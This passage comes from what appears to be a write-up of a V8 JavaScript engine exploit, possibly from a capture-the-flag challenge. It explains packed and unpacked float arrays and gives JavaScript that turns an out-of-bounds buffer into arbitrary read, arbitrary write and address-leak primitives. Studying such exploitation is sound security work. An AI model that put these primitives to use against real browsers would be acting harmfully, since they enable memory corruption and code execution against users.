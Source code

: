 What is this "packed" and "unpacked"? As a memory optimization, v8
stores an array consisting only of floats as a "packed" float
array. This means that all the floats lie contiguously. This is in
comparison to the unpacked form, which is used whenever there is at
least 1 non-float in the array. In this case, objects are stored as
tagged pointers, and the floats are stored in "boxed" form.

With these now, we can define our primitives, which are got simply by
accessing the elements of the two latter buffers.

```js
const RW_OFFSET = 38;
const ADDR_OFFSET = 18;
const BACKING_POINTER_OFFSET = 15n;
const leaked_addr_backing = oob_buffer[RW_OFFSET].f2i() + BACKING_POINTER_OFFSET;

function arb_read(addr) {
	let old = oob_buffer[RW_OFFSET];
	oob_buffer[RW_OFFSET] = (addr - BACKING_POINTER_OFFSET).i2f();
	r = oob_buffer_packed[0].f2i();
	oob_buffer[RW_OFFSET] = old;
	return r;
}

function arb_write(addr, val) {
	let old = oob_buffer[RW_OFFSET];
	oob_buffer[RW_OFFSET] = (addr - BACKING_POINTER_OFFSET).i2f();
	oob_buffer_packed[0] = val.i2f();
	oob_buffer[RW_OFFSET] = old;
}

function addr_of(o) {
	let old = oob_buffer_unpacked[0];
	oob_buffer_unpacked[0] = o;
	let r = oob_buffer[ADDR_OFFSET].f2i();
	oob_buffer_unpacked[0] = old;
	return r;
}
```

We also write some tests to help ensure that things work smoothly as
we move on to the next stages (you can find these in the final exploit
file).

## Crafting an Attack

With the powerful primitives that we now have access to, we can easily
trample over whatever memory we want/need.

It was this point forward, that a lot of time was spent chasing after
leads that led to almost nowhere. I have skipped most of the details
of these, but what follows is a short summary, before I get to the
solution after [Hours of Pain!](#hours-of-pain), during [A New
Hope](#a-new-hope).
